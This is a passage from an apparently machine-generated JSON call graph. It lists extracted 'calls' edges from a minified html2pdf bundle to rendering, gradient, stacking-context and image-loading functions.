"relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "calculateGradientDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "calculateGradientDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "calculateGradientDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "calculateGradientDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "calculateGradientDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parsePercentageAngle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_slicedToArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "calculateGradientDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "findCorner"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "calculateRadius"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "findCorner"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "side"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "findCorner"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "transformWebkitRadialGradientArgs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "transformObsoleteColorStops"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sliceIterator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sliceIterator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_createClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderNodeBackgroundAndBorders"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderNodeContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderNodeContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "callback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderTextNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "drawShape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "clip"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getClipPaths"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "clip"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "callback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderNodeBackgroundAndBorders"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isTransparent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "some"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isTransparent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "callback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "clip"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderBackgroundImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getClipPaths"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "clip"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "callback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderBackgroundImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reverse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderBackgroundRepeat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderBackgroundGradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderBackgroundRepeat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderRepeat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderBackgroundGradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderLinearGradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderRadialGradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "drawShape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderStack"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getOpacity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setOpacity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderStackContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderStackContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderStackContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "splitStackingContexts"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_slicedToArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "splitDescendants"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_slicedToArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderNodeBackgroundAndBorders"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "levels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderNodeContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "order"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rectangle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderStack"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "splitDescendants"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "splitStackingContexts"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isTransformed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sortByZIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readAsDataURL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "send"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getOrigin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_createClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_loadImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isSameOrigin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_loadImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "inlineImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_loadImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_loadImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "xhrImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "xhrImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readAsDataURL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "send"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_loadImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "loadCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hasResourceInCache"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "imageLoadHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isInlineBase64Image"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isSVG"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "imageLoadHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isSameOrigin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getOrigin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getOrigin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "ready"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "all"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_createClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isInlineImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isInlineBase64Image"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isBlobImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isSVG"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_loadImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sliceIterator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sliceIterator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseCounterReset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_slicedToArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "popCounters"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", 